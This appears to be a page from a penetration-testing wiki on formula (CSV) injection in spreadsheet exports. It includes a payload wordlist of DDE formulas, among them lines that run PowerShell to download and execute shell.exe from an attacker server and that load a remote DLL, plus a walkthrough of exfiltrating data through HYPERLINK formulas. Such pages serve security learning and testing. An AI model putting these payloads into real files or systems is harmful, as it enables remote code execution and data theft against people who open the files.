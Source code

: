 # Formula/CSV/Doc/LaTeX/GhostScript Injection

{% hint style="success" %}
Learn & practice AWS Hacking:<img src="/.gitbook/assets/arte.png" alt="" data-size="line">[**Resources Training AWS Red Team Expert (ARTE)**](https://training.khulnasoft.com/courses/arte)<img src="/.gitbook/assets/arte.png" alt="" data-size="line">\
Learn & practice GCP Hacking: <img src="/.gitbook/assets/grte.png" alt="" data-size="line">[**Resources Training GCP Red Team Expert (GRTE)**<img src="/.gitbook/assets/grte.png" alt="" data-size="line">](https://training.khulnasoft.com/courses/grte)

<details><summary>Support Resources</summary></details>
{% endhint %}

## Formula Injection

### Info

If your **input** is being **reflected** inside **CSV file**s (or any other file that is probably going to be opened by **Excel**), you maybe able to put Excel **formulas** that will be **executed** when the user **opens the file** or when the user **clicks on some link** inside the excel sheet.

{% hint style="danger" %}
Nowadays **Excel will alert** (several times) the **user when something is loaded from outside the Excel** in order to prevent him to from malicious action. Therefore, special effort on Social Engineering must be applied to he final payload.
{% endhint %}

### [Wordlist](https://github.com/payloadbox/csv-injection-payloads)

```
DDE ("cmd";"/C calc";"!A0")A0
@SUM(1+9)*cmd|' /C calc'!A0
=10+20+cmd|' /C calc'!A0
=cmd|' /C notepad'!'A1'
=cmd|'/C powershell IEX(wget attacker_server/shell.exe)'!A0
=cmd|'/c rundll32.exe \\10.0.0.1\3\2\1.dll,0'!_xlbgnm.A1
```

### Hyperlink

**The following example is very useful to exfiltrate content from the final excel sheet and to perform requests to arbitrary locations. But it requires the use to click on the link (and accept the warning prompts).**

The following example was taken from [https://payatu.com/csv-injection-basic-to-exploit](https://payatu.com/csv-injection-basic-to-exploit)

Imagine a security breach in a Student Record Management system is exploited through a CSV injection attack. The attacker's primary intention is to compromise the system used by teachers to manage student details. The method involves the attacker injecting a malicious payload into the application, specifically by entering harmful formulas into fields meant for student details. The attack unfolds as follows:

1. **Injection of Malicious Payload:**
   * The attacker submits a student detail form but includes a formula commonly used in spreadsheets (e.g., `=HYPERLINK("<malicious_link>","Click here")`).
   * This formula is designed to create a hyperlink, but it points to a malicious server controlled by the attacker.
2. **Exporting Compromised Data:**
   * Teachers, unaware of the compromise, use the application's functionality to export the data into a CSV file.
   * The CSV file, when opened, still contains the malicious payload. This payload appears as a clickable hyperlink in the spreadsheet.
3. **Triggering the Attack:**
   * A teacher clicks on the hyperlink, believing it to be a legitimate part of the student's details.
   * Upon clicking, sensitive data (potentially including details from the spreadsheet or the teacher's computer) is transmitted to the attacker's server.